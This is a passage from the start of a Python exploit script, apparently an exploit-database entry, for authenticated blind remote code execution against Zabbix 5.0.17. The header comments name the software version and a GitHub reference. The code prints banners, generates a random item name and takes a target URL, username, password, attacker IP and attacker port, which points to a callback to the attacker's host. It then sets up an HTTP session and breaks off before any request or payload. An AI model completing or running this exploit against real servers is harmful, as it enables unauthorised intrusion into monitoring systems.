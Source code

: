 # Software Link: https://www.zabbix.com/rn/rn5.0.17
# Version: 5.0.17
# Tested on: Linux
# Reference: https://github.com/HussienMisbah/tools/tree/master/Zabbix_exploit

#!/usr/bin/python3
# note : this is blind RCE so don't expect to see results on the site
# this exploit is tested against Zabbix 5.0.17 only

import sys
import requests
import re
import random
import string
import colorama
from colorama import Fore


print(Fore.YELLOW+"[*] this exploit is tested against Zabbix 5.0.17 only")
print(Fore.YELLOW+"[*] can reach the author @ https://hussienmisbah.github.io/")


def item_name() :
    letters = string.ascii_letters
    item =  ''.join(random.choice(letters) for i in range(20))
    return item

if len(sys.argv) != 6 :
    print(Fore.RED +"[!] usage : ./expoit.py <target url>  <username> <password> <attacker ip> <attacker port>")
    sys.exit(-1)

url  = sys.argv[1]
username =sys.argv[2]
password = sys.argv[3]
host = sys.argv[4]
port = sys.argv[5]


s = requests.Session()


headers ={
"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
}
